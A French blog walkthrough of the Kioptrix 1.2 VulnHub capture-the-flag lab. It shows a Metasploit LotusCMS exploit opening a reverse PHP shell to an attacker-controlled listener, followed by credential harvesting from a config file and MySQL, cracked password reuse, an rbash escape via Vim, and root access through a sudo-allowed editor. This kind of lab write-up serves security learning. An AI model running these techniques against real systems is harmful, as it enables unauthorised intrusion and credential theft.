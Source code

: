 # Solution du CTF Kioptrix: 1.2 de VulnHub

Voici la solution du [CTF Kioptrix 1.2](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/) qui date d'avril 2011  

CMS en mousse
-------------

```plain
Nmap scan report for 192.168.1.28
Host is up (0.00019s latency).
Not shown: 65532 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp   open     http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Ligoat Security - Got Goat? Security ...
9874/tcp filtered unknown
```

Sur le serveur Apache se trouve un CMS que [Wappalizer](https://www.wappalyzer.com/) ne reconnaît pas mais si on se rend sur la page de login on peut lire *Proudly Powered by: LotusCMS*  

On trouve facilement un [exploit Metasploit](https://www.exploit-db.com/exploits/18565/) pour ce CMS et comme la *DisclosureDate* est au 3 mars 2011 dans le code de l'exploit ça en fait un très bon candidat...  

Au passage il y a aussi sur le site une galerie PHP dont on trouve facilement le nom (*Gallarific*) grâce à la présence du balise méta. Il existe différents exploits là aussi trouvables sur *exploit-db*.  

Grace au module Metasploit l'exploitation est aisée :  

```plain
msf exploit(lcms_php_exec) > show options

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.1.28     yes       The target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /                yes       URI
   VHOST    kioptrix3.com    no        HTTP server virtual host

Payload options (php/reverse_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.3      yes       The listen address
   LPORT  9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0

msf exploit(lcms_php_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.3:9999 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Command shell session 3 opened (192.168.1.3:9999 -> 192.168.1.28:40897) at 2018-02-14 21:04:35 +0100
id;uname -a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
```

On trouve deux utilisateurs sur le système: *dreg* et *loneferret*.  

Ainsi que les identifiants SQL dans la configuration de la galerie (rien pour le CMS qui est file-based) :  

```php
$GLOBALS["gallarific_mysql_server"] = "localhost";
$GLOBALS["gallarific_mysql_database"] = "gallery";
$GLOBALS["gallarific_mysql_username"] = "root";
$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```

L'historique de l'un des utilisateurs est lisible :  

```plain
www-data@Kioptrix3:/home$ cat loneferret/.bash_history
sudo ht
exit
```

Je décide de faire un tour du côté du MySQL :  

```plain
www-data@Kioptrix3:/etc$ mysql -u root -p
mysql -u root -p
Enter password: fuckeyou

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| gallery            | 
| mysql              | 
+--------------------+
3 rows in set (0.00 sec)

mysql> use gallery;
use gallery;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+----------------------+
| Tables_in_gallery    |
+----------------------+
| dev_accounts         | 
| gallarific_comments  | 
| gallarific_galleries | 
| gallarific_photos    | 
| gallarific_settings  | 
| gallarific_stats     | 
| gallarific_users     | 
+----------------------+
7 rows in set (0.00 sec)

mysql> select * from dev_accounts;
select * from dev_accounts;
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 | 
|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e | 
+----+------------+----------------------------------+
2 rows in set (0.00 sec)

mysql> select * from gallarific_users;
select * from gallarific_users;
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
| userid | username | password | usertype  | firstname | lastname | email | datejoined | website | issuperuser | photo | joincode |
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
|      1 | admin    | n0t7t1k4 | superuser | Super     | User     |       | 1302628616 |         |           1 |       |          | 
+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+
1 row in set (0.00 sec)
```

Passwords faibles
-----------------

On retrouve facilement les mots de passe des utilisateurs qui sont respectivement *Mast3r* pour *dreg* et *starwars* pour *loneferret*.  

Ca tombe bien, dreg a le même mot de passe pour le système :  

```plain
$ ssh dreg@192.168.1.28
dreg@192.168.1.28's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
dreg@Kioptrix3:~$ sudo -l
[sudo] password for dreg: 
Sorry, user dreg may not run sudo on Kioptrix3.
dreg@Kioptrix3:~$ cd ..
rbash: cd: restricted
```

On est dans un environnement restreint (*rbash*) qui ne nous permet pas de sortir du dossier courant.  

Heureusement on peu en sortir en passant par Vim via les commandes suivantes (définir un shell différent et l'exécuter) :  

```plain
:set shell=/bin/bash
:shell
```

Mais en réalité tout celà ne sert à rien puisque le mot de passe pour *loneferret* est aussi bon :  

```plain
dreg@Kioptrix3:~$ su loneferret         
Password: 
loneferret@Kioptrix3:/home/dreg$ id
uid=1000(loneferret) gid=100(users) groups=100(users)
```

C'est du gâteau
---------------

On sait que l'utilisateur peut lancer [HT Editor](http://devloop.users.sourceforge.net/index.php?article25/tutoriel-d-utilisation-de-ht-editor) en tant que root.  

*HT* est un désassembler mais aussi un éditeur de texte classique. Il suffit donc d'aller ouvrir le dossier /root puis de lire le flag (*Congrats.txt*).  

![Kioptrix3 flag opened with HT Editor](https://raw.githubusercontent.com/devl00p/blog/master/images/kioptrix/kioptrix3_ht.png)

Une erreur *Error opening terminal: xterm-256color* empêchait tout de même d'exécuter *HT*, il fallait y rémédier avec la commande *export TERM=xterm*.  


*Published February 22 2018 at 18:02*